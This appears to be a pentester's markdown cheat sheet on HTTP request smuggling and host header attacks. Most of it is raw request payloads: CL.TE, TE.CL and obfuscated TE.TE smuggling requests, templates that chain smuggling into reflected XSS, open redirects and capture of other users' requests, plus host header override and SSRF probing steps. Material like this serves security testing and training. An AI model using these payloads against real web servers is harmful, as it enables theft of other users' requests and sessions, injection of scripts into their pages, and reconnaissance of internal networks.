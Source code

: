 # HTTP

## HTTP Smuggling

A smuggling vulnerability happens beacuse there are multiple ambiguous ways to define the length of an HTTP request the `Content-Length` header and the `Transfer-Encoding` header that is used to define the total length of a message split in chunked requests. Clients and servers may parse these headers differently and allow to include unexpected code in a HTTP request

Example of a chunked request

```
POST ... HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b    #start delimiter
<body>
0    #end delimiter
```

#### CL.TE Exploit

Front end uses `Content-Length` and back end uses `Transfer-Encoding`

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

#### TE.CL Exploit

Front end uses `Transfer-Encoding` and back end uses `Content-Length`

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED [\r\n\r\n]
0
```

#### TE.TE Exploit

Both the client and the server use `Transfer-Encoding` but one of them can be tricked to not parse the header by obfuscating it

```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[\t]chunked
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

### Reflected XSS

Allows to easily target an HTTP header and body. When a user sends his request it will be appended to the malicious smuggled request and will trigger the XSS vulnerability without requiring interaction

```
POST / HTTP/1.1
Host: <target>
Content-Length: <len>
Transfer-Encoding: chunked

0

GET / HTTP/1.1
<header>: <XSS>
Foo: X
```

### Open redirect

Allows to redirect the user to an arbitrary site by overwriting the `Host` header

```
POST / HTTP/1.1
Host: <target>
Content-Length: <len>
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: <redirect to>
Foo: X
```

### Reflect a user's request as value of an argument

Allows to steal a HTTP request from a user and print it as the value of a parameter in a GET or POST request

```
GET / HTTP/1.1
Host: <target>
Transfer-Encoding: chunked
Content-Length: <len>

0

POST <req> HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>
<req param>=
```

For instance if the target request is like `/save?username=usr&msg=text` it is possible to steal the next user's request with the following payload and navigating to a point in the site where the msg parameter is displayed

```
GET / HTTP/1.1
Host: <target>
Transfer-Encoding: chunked
Content-Length: <len>

0

POST <req> HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: <len>
/save?username=usr&msg=
```

## Host Header Attacks

The host header is used to inform balancers and front end server to where to redirect the user. By tampering this header it is possible to perform SSRF attacks. To find vulnerabilities in how the Host header is parsed by using the following steps

* Send an arbitrary host
* Check for host validation where only the url is validated and not the port `hostsite.com:evil`
* Try to send a request with an url as part of an accepted subdomain `evil-hostsite.com` or `evilhostsite.com`
* Duplicate the Host header
* Add indentation before or after the header such as tabs spaces and \n
* Sending the request to a full url instead of a relative one may lead the server to parse the header differently

### Header overwrite

It is possible to overwrite the value of Host by adding one on the following headers to the request

```
X-Forwarded-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

### SSRF

Controlling the Host header allows to scout the internal network of the target machine in order to find other servers. To verifiy the vulnerability replace the Host value with the url of a server you control. If you receive a hit from the target machine or another one in the same network then the servers are vulnerable and you can use bruteforce or dictionary attacks to locate new machines. If the response is a redirect (3XX) then the machine with the given hostname or ip address exists
